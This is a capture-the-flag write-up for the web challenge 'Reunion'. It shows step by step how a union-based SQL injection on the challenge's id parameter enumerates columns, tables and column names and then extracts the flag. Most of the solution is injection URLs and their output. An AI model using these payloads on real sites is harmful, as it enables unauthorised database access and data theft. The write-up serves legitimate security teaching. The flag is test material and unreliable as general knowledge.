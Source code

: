 ```yaml
---
layout: writeup
title: 'Web Exploitation 150: Reunion'
level:
difficulty:
points:
categories: []
tags: []
flag: abctf{uni0n_1s_4_gr34t_c0mm4nd}
---
```

**Challenge**   
SQL injection challenge, great resource for union based sql injection
[here][1]

## Solution

first we find out how many columns there are by simply guessing and
seeing when we get an output:

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134,8 from information_schema.tables where table_schema=database()--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: 134

bingo!

next we find out the table name

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,table_name,8 from information_schema.tables where table_schema=database()--+
    
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: w0w_y0u_f0und_m3
    Name: 42
    Breed: 5
    Color: webeight

so we know the table\_name is `w0w_y0u_f0und_m3`

now for the column names (we had to hex encode the table name for this
to work):

    http://yrmyzscnvh.abctf.xyz/web8/?id=2 union select 2,2,column_name,8 from information_schema.columns where table_schema=database() and table_name=0x7730775f7930755f6630756e645f6d33--+
    Name: Doodle
    Breed: Poodle
    Color: Pink
    Name: 2
    Breed: 2
    Color: f0und_m3
    '''
    
    So we found the column name we need. now to extract data from this column
    
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 2,4,f0und_m3,1 from w0w_y0u_f0und_m3--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 4
    Breed: 2
    Color: abctf{uni0n_1s_4_gr34t_c0mm4nd}



[1]: http://securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html
